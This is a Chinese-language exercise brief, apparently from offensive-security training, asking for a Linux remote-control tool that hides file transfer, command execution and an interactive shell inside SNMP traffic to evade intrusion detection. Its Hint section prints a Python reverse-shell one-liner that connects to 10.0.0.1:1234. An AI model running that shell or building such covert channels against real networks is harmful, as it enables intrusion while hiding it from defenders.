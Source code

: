 # Super Naive Management Protocal

## Background

SNMP是一种用于监控和管理网络设备的协议。企业数据中心通常有大量服务器/网络设备需要运维管理，例如统计运行状态，资源占用等等。

在对内网的渗透测试时。内网间的横向移动，包括扫描，爆破，转发，比较容易触发安全设备（IPS/IDS）等等。

通常来说，内网中会有较多的IGMP/SNMP等等流量，一些比较捉鸡的安全设备可能会直接放行。

## Details

你需要实现一个基于SNMP协议的远程控制工具，包括客户端和服务端

客户端和服务端工作在**Linux**操作系统上

客户端连接服务端后，用户可以通过操作服务端完成以下功能

* 文件上传/下载
* 命令执行（并获取输出结果）
* 伪终端（可以交互）

服务端实现以下功能

* 管理多个客户端

## Attention

1. 使用你喜欢的语言
2. 不允许使用已有的可靠连接库（QUIC/KCP）
3. 文件传输性能不做要求，命令执行回显性能不做要求
4. 发出的流量**必须**是正常的SNMP流量。比如，使用tcpdump抓包显示结果是SNMP
5. **SNMP工作在UDP上，要考虑丢包问题**

## Hint

* 客户端可以向服务端轮询任务，任务告知客户端要做的事，和下一次与服务端数据交换的间隔
* 通俗一点的话。客户端："我上次干了啥，这次要干啥。干完啥时候给你"
* 校验。数据有损坏的话重传
* 交互式shell的话，可以研究以下这一行代码`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

## Advanced(Optional)

* 实现数据加密
* 优化速度
* 友好的用户界面
* 视频传输

## References

[SNMP - Wikipedia](https://en.wikipedia.org/wiki/Simple_Network_Management_Protocol)

[CobaltStrike](https://www.cobaltstrike.com/)

[Meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)